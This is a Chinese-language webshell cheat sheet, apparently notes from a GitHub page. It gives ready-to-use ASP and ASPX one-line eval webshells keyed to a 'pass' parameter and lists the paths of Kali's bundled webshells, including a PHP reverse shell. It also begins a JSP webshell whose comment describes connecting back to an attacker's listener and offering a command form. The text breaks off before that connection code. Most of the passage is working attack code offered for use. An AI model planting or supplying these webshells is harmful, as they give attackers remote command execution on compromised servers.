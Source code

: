 asp的一句话木马：
```asp
<%eval request('pass')%> 或<% execute(request("pass")) %>
```

aspx的一句话木马：
```aspx
<%@ Page Language='Jscript'%> <%eval(Request.Item['pass'],'unsafe');%>
```

#### PHP websehll【大马】

kali自带webshell存储路径：
```
/usr/share/webshells/asp
/usr/share/webshells/aspx
/usr/share/webshells/cfm
/usr/share/webshells/jsp
/usr/share/webshells/laudanum -> /usr/share/laudanum
/usr/share/webshells/perl
/usr/share/webshells/php
```
常用：
```
/usr/share/webshells/php/php-reverse-shell.php
```

### jsp webshell

#### jsp大马

一个简单的反向以及一个识别操作系统（Windows/Linux）的webshell
```
<%
    /*
     * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
     * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
     * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
     * the command specified in the HTML form). This is to avoid to keep it simple.
     */
%>

<%@page import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>

<html>
<head>
    <title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
    <input TYPE="text" NAME="shell">
    <input TYPE="submit" VALUE="Send">
</form>
<pre>
<%

    // Define the OS
    String shellPath = null;
    try
    {
```